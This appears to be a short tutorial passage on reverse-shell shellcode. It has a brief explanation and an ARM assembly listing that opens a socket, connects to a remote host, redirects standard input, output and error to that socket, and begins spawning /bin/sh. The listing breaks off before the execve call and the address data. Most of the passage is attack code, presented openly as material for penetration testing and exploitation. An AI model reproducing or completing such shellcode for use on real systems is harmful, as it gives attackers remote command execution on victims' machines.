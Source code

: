 
### **Reverse Shell**

A **reverse shell** is a shellcode that causes the compromised machine to connect back to the attacker's system, allowing them to execute commands remotely. This type of shellcode is often used in situations where the attacker cannot directly access the compromised machine (e.g., because it is behind a firewall or NAT).

- **How It Works**: The shellcode will open a network socket, connect to the attacker’s machine, and redirect input/output to the attacker’s system. Once connected, the attacker can execute commands on the victim system.
- **Use Case**: This is commonly used in penetration testing and malicious activity, where an attacker needs to remotely control a device after gaining initial access.



A reverse shell:

1. Creates a network socket
2. Connects to a specified remote IP and port
3. Redirects standard I/O to the socket
4. Spawns a shell, giving the remote user control

```s title:reverse.s
.section .text
.global _start

_start:
    // ========== SOCKET CREATION ==========
    // socket(AF_INET, SOCK_STREAM, 0)
    mov r0, #2      // AF_INET = 2
    mov r1, #1      // SOCK_STREAM = 1
    mov r2, #0      // Protocol = 0 (IP)
    mov r7, #281    // socket syscall number
    svc #0
    mov r4, r0      // Save socket fd in r4

    // ========== CONNECT TO REMOTE ==========
    // connect(sockfd, &sockaddr, 16)
    adr r1, sockaddr // Pointer to sockaddr structure
    mov r2, #16      // sizeof(sockaddr) = 16
    mov r0, r4       // socket fd
    mov r7, #283     // connect syscall number
    svc #0

    // ========== DUP2 STDIN/OUT/ERR ==========
    // dup2(clientfd, 0)
    mov r0, r4      // socket fd
    mov r1, #0      // STDIN
    mov r7, #63     // dup2 syscall
    svc #0

    // dup2(clientfd, 1)
    mov r0, r4
    mov r1, #1      // STDOUT
    svc #0

    // dup2(clientfd, 2)
    mov r0, r4
    mov r1, #2      // STDERR
    svc #0

    // ========== EXECUTE SHELL ==========
    // execve("/bin/sh", NULL, NULL)
    adr r0, shell   // Pointer to "/bin/sh"
    mov r1, #0      // NULL argv
    mov r2, #0      // NULL envp
```